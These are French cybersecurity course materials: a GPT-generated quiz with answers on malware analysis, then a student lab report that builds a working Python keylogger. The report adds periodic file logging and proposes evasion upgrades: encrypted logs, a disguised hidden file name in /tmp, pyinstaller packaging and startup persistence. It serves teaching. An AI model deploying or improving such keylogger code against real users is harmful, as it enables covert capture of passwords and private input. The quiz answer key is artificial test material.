 B. De patcher régulièrement l’OS et les applications, utiliser des solutions de sécurité (antivirus, IDS/IPS), surveiller les journaux.
 C. De désactiver toutes les mises à jour.
 D. D’utiliser exclusivement un pare-feu matériel pour se protéger des rootkits.

> **Réponse :** B. Mettre à jour, employer des solutions de sécurité et auditer l’activité réseau/logs.

# DE - Mode Hardcore

`GPT-Generated`, 20 questions suivant les même critères que décrits précédemment. Cette fois, les questions sont réputées techniquement plus difficiles.

### 1. Au sein d’un **packeur multistage**, à quel moment un analyste a-t-il le plus de chances d’observer le code malveillant réel ?

A. Dès l’ouverture du binaire dans un éditeur hexadécimal.
 B. Immédiatement après le calcul de hash (MD5).
 C. Une fois que le stub de décompression ou de déchiffrement a déroulé son code en mémoire.
 D. À aucun moment, car le packeur supprime le code en mémoire après exécution.

**Réponse :** C. Le code réel apparaît après la décompression/déchiffrement en mémoire.

------

### 2. Dans le contexte des **malwares bancaires** utilisant l’injection de code en temps réel (HTML Injection), quel est le principal objectif ?

A. Afficher un simple pop-up d’erreur sans incidence financière.
 B. Récupérer des identifiants en insérant des champs supplémentaires dans les pages bancaires légitimes.
 C. Empêcher l’accès au site web de la banque via des blocages DNS.
 D. Déclencher des sauvegardes automatiques sur le système ciblé.

**Réponse :** B. Intercepter ou récupérer les données bancaires via champs ajoutés dans la page.

------

### 3. Lors d’une **analyse dynamique avancée** dans un debugger, si un malware exécute une instruction `cpuid` suivie d’un test de certains registres, quel comportement cherche-t-il potentiellement à mettre en place ?

A. Déceler la version exacte de l’API Windows.
 B. Vérifier la présence d’une sandbox ou d’une machine virtuelle (technique anti-VM).
 C. Déterminer la vitesse du processeur pour adapter sa charge.
 D. Transférer le contrôle à un shellcode embarqué dans la pile.

**Réponse :** B. C’est une méthode courante pour détecter VM/sandbox (anti-virtualisation).

------

### 4. Les **rootkits en mode noyau** (kernel-mode) peuvent détourner la table IDT (Interrupt Descriptor Table). Pourquoi un malware ferait-il cela ?

A. Pour empêcher définitivement l’activation de l’ASLR (Address Space Layout Randomization).
 B. Pour intercepter des événements système (interruptions) et masquer ses propres actions ou celles d’autres malwares.
 C. Parce que la table IDT est l’unique emplacement où se trouve le code exécutable du noyau.
 D. Pour accélérer le temps de réponse du processeur en mode utilisateur.

**Réponse :** B. Détourner l’IDT permet de cacher ou rediriger les interruptions à des fins malveillantes.

------

### 5. Dans l’**analyse statique** d’un binaire Windows par IDA Pro, quelle particularité indique fréquemment l’usage d’un **import par chargement manuel** (LoadLibrary/GetProcAddress) plutôt que d’un import statique ?

A. L’absence de section .rsrc dans le fichier PE.
 B. L’absence ou la très faible liste de fonctions dans la table d’import (IAT).
 C. L’impossibilité de calculer l’entropie du fichier.
 D. Des signatures d’anti-debug intégrées dans la section .edata.

**Réponse :** B. Une IAT quasi vide suggère un chargement dynamique via LoadLibrary/GetProcAddress.

------

### 6. Quel est l’**intérêt principal d’une “API Hooking”** effectuée par un malware user-mode ?

A. Surveiller et altérer, au niveau utilisateur, les appels à des fonctions critiques (ex. CreateFile) pour échapper à la détection ou intercepter des données.
 B. Établir une connexion directe avec le BIOS pour modifier les routines d’amorçage.
 C. Gérer la table des interruptions réseau (NIDT).
 D. Obtenir automatiquement les droits administrateur sur n’importe quel OS.

**Réponse :** A. Permet de modifier/espionner les appels d’API critiques en user-mode.

------

### 7. Lorsqu’on parle de **malware multi-plateforme**, utilisant par exemple Java ou Python, quelle contrainte reste souvent difficile à contourner ?

A. Les signatures de code polyalphabétiques.
 B. Les incompatibilités liées au shell Windows vs shell Linux.
 C. L’absence de capacité d’obfuscation pour les langages interprétés.
 D. La présence ou non de l’environnement d’exécution (JRE, interpréteur Python) sur la machine cible.

**Réponse :** D. Il faut que la cible dispose de la JVM ou de l’interpréteur Python.

------

### 8. En **analyse dynamique**, pourquoi l’usage de **snapshots VM** est-il si important ?

A. Pour ne pas avoir à régler la taille mémoire du binaire.
 B. Parce que les snapshots ajoutent systématiquement une protection anti-buffer overflow.
 C. Pour pouvoir revenir à un état propre (pré-infection) après avoir exécuté le malware.
 D. Afin d’étendre automatiquement l’espace disque à chaque itération.

**Réponse :** C. On peut réinitialiser la VM à l’état d’avant l’infection.

------

### 9. Un **outil d’analyse mémoire** (ex. Volatility) peut aider à :

A. Déboguer en direct un programme utilisateur en langage Java.
 B. Analyser l’image de la mémoire vive d’une machine pour localiser des artefacts malveillants (processus, hooks, etc.).
 C. Bloquer les ports TCP en écoute.
 D. Compresser un fichier PE chiffré.

**Réponse :** B. Volatility & co. inspectent la mémoire pour trouver traces de malwares en RAM.

------

### 10. Les **malwares Polymorphes** et **Métamorphiques** se distinguent principalement par :

A. Le polymorphisme ne modifie pas l’empreinte binaire, alors que le métamorphisme la modifie grandement.
 B. Le polymorphisme inclut un moteur de mutation qui conserve la logique de base, tandis que le métamorphisme peut réécrire complètement le code à chaque génération.
 C. Le polymorphisme est un concept applicable uniquement aux ransomwares, alors que le métamorphisme concerne les trojans.
 D. Ils sont identiques, seuls les noms diffèrent.

**Réponse :** B. Polymorphisme = même algorithme, code “muté”. Métamorphisme = réécriture plus profonde.

------

### 11. Dans le cas d’une **analyse statique avancée** en assembleur x86, l’instruction `mov eax, [ebx+ecx*4+0x10]` indique :

A. Un accès à un tableau d’entiers (4 octets) indexé par ecx, avec un offset 0x10, en utilisant ebx comme base.
 B. Un décalage d’1 bit de la valeur contenue dans ecx.
 C. Une combinaison d’opérandes interdite sur x86.
 D. Un saut inconditionnel à l’adresse stockée dans ecx.

**Réponse :** A. On lit un élément d’un tableau d’entiers (taille 4) avec offset 0x10, base ebx.

------

### 12. Lors d’un **reverse-engineering**, pourquoi l’absence de symboles (fonction “stripped”) dans le binaire Windows peut-elle poser problème ?

A. Parce qu’il devient impossible d’exécuter le programme.
 B. Parce que sans symboles, IDA ne peut pas afficher les chaînes en ASCII.
 C. Parce qu’il est plus difficile d’identifier le rôle exact des fonctions et de leurs variables internes.
 D. Parce que la signature du code ne peut plus être validée par Microsoft.

**Réponse :** C. L’absence de symboles rend plus compliqué l’attribution de noms et l’interprétation des fonctions.

------

### 13. Un **dropper évolué** peut recourir à un mécanisme d’**anti-sandbox** en vérifiant :

A. La quantité de mémoire RAM ou le nombre de CPU/cores afin de détecter un environnement artificiel minimaliste.
 B. La présence d’une connexion stable à un serveur distant.
 C. Un montage d’images ISO dans la base de registre.
 D. La longueur du chemin d’installation du malware.

**Réponse :** A. Vérifier la quantité de RAM/CPU est classique pour détecter un environnement virtuel limité.

------

### 14. **YARA** est souvent employé en analyse de malwares. À quoi sert-il ?

A. Un système de contrôle d’accès basé sur l’attribut “Yet Another Role Access”.
 B. Un langage de script pour injecter du code manuellement en user-mode.
 C. Un outil permettant de définir des règles (patterns) de détection de malwares sur le contenu binaire (strings, sections, etc.).
 D. Une version modifiée de l’antivirus ClamAV fournie par l’ANSSI.

**Réponse :** C. YARA sert à créer des règles de détection par motifs de chaînes, sections, etc.

------

### 15. Dans un malware implémentant un **mécanisme de persistence** via le registre Windows (Run keys, etc.), que peut observer un analyste pendant l’analyse dynamique ?

A. Un crash immédiat du système d’exploitation.
 B. L’ajout automatique de lignes dans la table d’import du PE.
 C. La création ou la modification de clés `HKCU\...\Run` ou `HKLM\...\Run`.
 D. La copie du binaire en ELF format.

**Réponse :** C. Une clé Run est un vecteur de persistance courant dans le registre Windows.

------

### 16. À propos de la **technique anti-debug** `IsDebuggerPresent()` sous Windows :

A. Elle est spécifique à Linux Kernel 5.x.
 B. Elle renvoie un booléen que le malware peut vérifier pour interrompre son exécution s’il se sent “débogué”.
 C. C’est une API imposée par la suite SysInternals.
 D. Elle installe un driver en ring 0 pour bloquer OllyDbg.

**Réponse :** B. Cette API, si elle renvoie TRUE, peut faire cesser le malware ou déclencher d’autres contremesures.

------

### 17. Un **ransomware** cherchant à **exfiltrer** des clés de chiffrement peut utiliser un protocole inhabituel (ex. DNS, ICMP). Pourquoi ?

A. Parce que ces protocoles fournissent un débit plus rapide que TCP/HTTP.
 B. Pour contourner certaines surveillances de trafic (pare-feu, proxies) focalisées sur les canaux courants (HTTP, HTTPS).
 C. Les protocoles standard (HTTP/HTTPS) ne supportent pas l’envoi de clés binaires.
 D. Les solutions EDR ignorent systématiquement tout trafic ICMP.

**Réponse :** B. Ces protocoles peuvent échapper au filtrage ou à la surveillance traditionnelle.

------

### 18. Un **ransomware** qui implémente un **Kill Switch** (URL ou nom de domaine) :

A. Montre qu’il n’a pas réellement l’intention de chiffrer les données.
 B. Cherche à chiffrer uniquement les données déjà présentes sur un serveur distant.
 C. Peut cesser son activité si un domaine particulier est enregistré ou si une requête réseau aboutit, permettant parfois aux chercheurs de stopper sa propagation.
 D. Est forcément inoffensif, car il s’arrête tout seul après 2 minutes.

**Réponse :** C. L’existence d’un Kill Switch peut permettre aux chercheurs de neutraliser la menace.

------

### 19. En **analyse statique**, un haut niveau d’**obfuscation** (code spaghetti, faux flux de contrôle, etc.) vise à :

A. Faciliter la compréhension du code pour le débogage.
 B. Rendre le binaire plus compatible avec Windows 11.
 C. Compliquer considérablement le reverse-engineering en rendant la logique réelle difficile à isoler.
 D. Respecter la norme C11 sur la compilation.

**Réponse :** C. L’obfuscation rend la tâche de reverse-engineering nettement plus ardue.

------

### 20. Lorsqu’un **botnet** est géré par un **C&C (Command and Control)** utilisant un modèle “Fast Flux” :

A. Le code du bot se réécrit en permanence en mode noyau.
 B. Les adresses IP associées au domaine du serveur de contrôle changent très régulièrement, rendant la détection et la mise sur liste noire plus complexes.
 C. Le trafic est systématiquement compressé avant envoi pour gagner en rapidité.
 D. Les bots n’utilisent plus du tout de DNS pour résoudre le serveur de contrôle.

**Réponse :** B. Le “Fast Flux” repose sur des changements rapides d’adresses IP pour contourner la détection.

# Rendu LAB01

## Questions

>  Qu'est-ce qu'un keylogger ?

Un keylogger est un programme qui enregistre les frappes au clavier. Il existe 2 types de keyloggers, matériel et logiciels. Le premier type est comme un adaptateur inséré entre le clavier et l'ordinateur, qui intercepte et enregistre les frappes directement au niveau matériel. Le second type est un programme informatique qui surveille et enregistre les frappes au clavier en s'exécutant en arrière-plan sur le système d'exploitation.

> Y a-t-il une utilisation légitime pour ce genre de programme ? Expliquez.

Oui, un keylogger peut avoir des utilisations légitimes lorsqu'il est déployé de manière éthique et avec consentement.

> Quel est le rôle du paramètre `on_press` ?

Nous avons le code suivant:
```python
from pynput import keyboard

def processkeys(key):
    print(f"Touche appuyée : {key}")

with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    keyboard_listener.join()
```

Le paramètre `on_press` désigne la fonction qui sera appelée à chaque fois qu'une touche est pressée. Elle permet de spécifier le traitement à effectuer pour chaque frappe.

Nous pouvons constater que cela fonctionne parfaitement.



> Quel est le rôle des instructions avec le `with`?

Ces instructions permettent de démarrer le keylogger. La méthode `keyboard.Listener` initialise l'écoute, et `keyboard_listener.join()` maintient le programme en fonctionnement jusqu'à ce que l'utilisateur fasse un kill explicite du programme.

> Que se passe-t-il lorsque vous tapez des touches sur le clavier ?

Nous pouvons constater que le programme fonctionne correctement, dans la mesure où on lui demande de capturer l'évènement de tape sur le clavier individuellement.

> Quel est le problème d'affichange ? Essayez de l'améliorer.

Le problème principal, outre le fait que chaque touche donne lieu à un saut de ligne, est que certains évènements portent leur nom et non la valeur à laquelle nous nous attendons. Par exemple, des touches comme `<Key.shift>` ou `<Key.cmd>` apparaissent telles quelles dans la sortie.

Nous allons ajouter le code suivant:

```python
log = ""

def processkeys(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log = log[:-1]
        else:
            log += ""

    print(" -> Final Text: " + log)
```

Nous donnant donc notre fichier complet:

```python
from pynput import keyboard

log = ""

def processkeys(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log = log[:-1]
        else:
            log += ""

    print(" -> Final Text: " + log)

with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    keyboard_listener.join()
```

Nous pouvons constater que cela fonctionne correctement.



> Améliorez votre Keylogger en mettant en place un fichier `log.txt` qui va stocker les valeurs saisies.

>  Que fait la méthode `open` ?

La méthode `open` ouvre un fichier sur le système. Si le fichier n'existe pas, il le crée.

> `logfile = open(path, "a")` ?

Cette ligne ouvre ou crée le fichier `log.txt` en mode ajout (append), permettant d'écrire à la suite des données existantes.

> Que représente le paramètre `"a"` ?

Le paramètre `"a"` (append) signifie que le fichier sera ouvert en mode ajout. Les nouvelles données seront ajoutées à la fin du fichier sans effacer son contenu existant.

> Ajouter l’instruction `logfile.close()`. À quoi sert-elle ?

La méthode `close()` libère les ressources associées au fichier. Elle garantit que toutes les données en mémoire tampon sont écrites dans le fichier et ferme le fichier proprement.

Nous avons donc, *in finne*, le code suivant:

```python
from pynput import keyboard
import os
import threading

log = ""
path = "/Users/thomas/Desktop/log.txt"

def processkeys(key):
    """
    Process the keys pressed by the user and store them in the log variable.
    """
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log = log[:-1]
        else:
            log += ""

def report():
    """
    Report the log to the attacker's server.
    """
    global log, path
    with open(path, "a") as logfile:
        logfile.write(log)
    log = ""
    threading.Timer(10, report).start()


# Start the keylogger
with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    report()
    keyboard_listener.join()
```

Note: La ligne `threading.Timer(10, report).start()` exécute la fonction `report` toutes les 10 secondes en démarrant un nouveau thread. Cela permet d'enregistrer périodiquement les frappes dans le fichier sans bloquer le programme principal. Nous avons également supprimer la ligne de `print` de la fonciton `processkeys` afin de rendre le keylogger visuellement plus lisible.

Nous pouvons constater que cela fonctionne correctement:


> Ajouter un appel à la fonction `report()` avant

Nous modifions donc notre code de la manière suivante.

```python
# [....]
report()

# Start the keylogger
with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    keyboard_listener.join()
```

Nous lançons notre programme, et constatons que celui-ci se lance mais n'écrit pas tout de suite dans le fichier `log.txt`.


Nous pouvons voir une ligne s'afficher dans le `tail -f log.txt` une dizaine de secondes après notre frappe.


> Quelles sont les points failes de ce keylogger ?

D'après moi, ce keylogger possède les faiblesses suivantes:

- Les antivirus modernes peuvent facilement détecter un keylogger simple comme celui-ci. Nous avons l'exemple-même avec l'avertissement du terminal sur macOS qui nous indique aue ce process n'est pas trusted.
- Le fichier `log.txt` est stocké dans un chemin évident et accessible.
- Les données enregistrées ne sont ni chiffrées ni sécurisées.
- Le programme pourrait ne pas fonctionner correctement sur certains systèmes ou configurations (par exemple, avec des claviers non standard).

> Quelles améliorations puise-je proposer ?

Nous allons essayer de résoudre les principaux soucis détaillés ci-dessus. Nous allons donc nous pencher sur une solution de chiffrement et de discretion concernant le nom du fichier, son emplacement et son exécution.

Voici ce que j'aurais fait:

Sur la fonction `report()`:

```python
key = Fernet.generate_key()
cipher = Fernet(key)

# [....]
def report():
    """
    Report the log to the attacker's server.
    """
    global log, path, cipher
    encrypted_log = cipher.encrypt(log.encode())
    with open(path, "ab") as logfile:
        logfile.write(encrypted_log + b"\n")
    log = ""
    threading.Timer(10, report).start()
```

- Chiffrement avec la ligne `encrypted_log = cipher.encrypt(log.encode()) `
- Append dans le fichier de log en mode binaire (non lisible si l'utilisateur tombe dessus par hasard) avec la ligne `with open(path, "ab") as logfile:`

Sur la localisation du fichier:

```python
path = os.path.join(os.getenv("TEMP", "/tmp"), ".kernel.log")
```

- Création du fichier de logs dans `/tmp`, masquage du nom par un autre nom moins suspect et transformation en fichier caché.

Enfin, j'aurais transformé le script python en un exécutable moins repérable par l'utilisateur (les OS aujourd'hui le détecteront instantanément).

Pour cela, il aurait fallu faire:

```shell
pip install pyinstaller
pyinstaller --onefile keylogger.py
```

La seconde ligne donne un fichier `keylogger.exe`.

Ce ne sera pas réalisé dans ce TP car je ne tiens pas à installer un keylogger sur mon ordinateur, mais il aurait été pertinent de le mettre en tâche de démarrage. `systemd` pour Linux ou `launchd` pour macOS.

